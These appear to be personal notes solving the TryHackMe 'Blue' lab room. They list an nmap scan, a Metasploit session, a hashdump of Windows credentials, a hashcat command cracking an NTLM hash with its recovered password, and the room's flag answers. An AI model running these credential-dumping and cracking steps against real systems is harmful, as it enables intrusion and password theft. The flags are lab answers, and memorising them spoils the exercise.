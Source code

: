 # BLUE

link to the room: [https://tryhackme.com/room/blue]

`export IP=10.10.148.109`


## Recon

### Nmap
command: `nmap -sC -sV -vv -oN recon/nmap $IP`

### Gobuster


## TASK

### Gain access 

msfconsole: `spool scripts/msfconsole`

### CRACK

msfconsole: `hashdump`

hashcat: NTLM(1000) `hashcat -m 1000 ffb43f0de35be4d9917ac0cc8ad57f8d ~/Personal/tools/wordlists/rockyoutxt`

output: `ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22`

### FLAGS

```
cd /
cat flag1.txt
flag{access_the_machine}
---
cd \Windows\System32\config
cat flag2.txt
flag{sam_database_elevated_access}s

---
search -d /Users -f flag3*
cat /Users/Jon/Documents/flag3.txt
flag{admin_documents_can_be_valuable}    
```